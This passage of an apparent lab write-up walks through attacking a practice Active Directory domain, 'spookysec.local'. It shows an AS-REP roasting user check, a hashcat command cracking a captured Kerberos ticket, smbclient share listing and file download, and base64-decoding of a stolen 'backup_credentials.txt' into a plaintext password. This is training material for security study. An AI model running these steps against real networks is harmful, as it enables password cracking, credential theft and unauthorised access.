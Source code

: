 ```
[-] User backup@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User JAMES@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Paradox@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User DARKSTAR@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ori@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ROBIN@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
```

I also found [this awesome video](https://forum.hackthebox.eu/discussion/2749/getnpusers-py-explained-video) for what was happening above.

Now that we have the encrypted TGT for the user "svc-admin" we save it to a file and bruteforce for a password using hashcat.

`hashcat -a 0 -m 18200 TGT.txt passwordlist.txt`

We cracked the password.

Next we can try logging into the SMB service.

```
$ smbclient -U svc-admin -L \\\\10.10.27.108\\             
Enter WORKGROUP\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 

```

"backup" looks good. Lets try listing its contents.

```
$ smbclient -U svc-admin \\\\10.10.27.108\\backup
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Apr  4 19:08:39 2020
  ..                                  D        0  Sat Apr  4 19:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020
```

Now just use "get backup_credentials.txt" to download the file.

```
$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

cat backup_credentials.txt | base64 -d
backup@spookysec.local:backup2517860
```
